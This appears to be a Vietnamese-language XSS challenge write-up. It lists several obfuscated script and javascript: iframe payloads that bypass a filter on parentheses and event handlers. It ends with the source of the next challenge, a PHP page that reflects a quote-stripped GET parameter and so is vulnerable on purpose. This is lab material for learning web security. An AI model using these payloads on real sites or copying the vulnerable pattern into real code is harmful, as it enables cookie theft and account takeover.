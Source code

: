 ## Phân tích

Challenge này sẽ không cho phép chúng ta dùng dấu `()` và input sẽ không được xuất hiện ký tự `o` rồi tới `n` -> mục đích là để filter event handlers

## Payload

Sau đây là một số các payload mà mình có thể nghĩ ra được:

```
<script>alert`XSS`</script>
```

```
<script>setTimeout`alert\x28'XSS'\x29`</script>
```

```
<script>setTimeout`alert\x28self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x64\x6f\x6d\x61\x69\x6e"]\x29`</script>
```

```
<iframe src="javascript:%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%64%6f%6d%61%69%6e%29"></iframe>
```

## Nguồn
https://melotover.medium.com/how-i-bypassed-a-tough-waf-to-steal-user-cookies-using-xss-da75f28108e4
https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/

# No Quotes

```html
<script src="hook.js"></script>
<?php
// by escaping the payload you won't break this system, haha! :-)
$escaped = preg_replace("/['\"`&#]/", "", $_GET['payload']);
?>

<h1>Hello, <?= $escaped ?>!</h1>

<h1>inject</h1>
<form>
    <input type="text" name="payload" placeholder="your payload here">
    <input type="submit" value="GO">
</form>

<h1>src</h1>
<?php highlight_string(file_get_contents(basename(__FILE__))); ?>
```
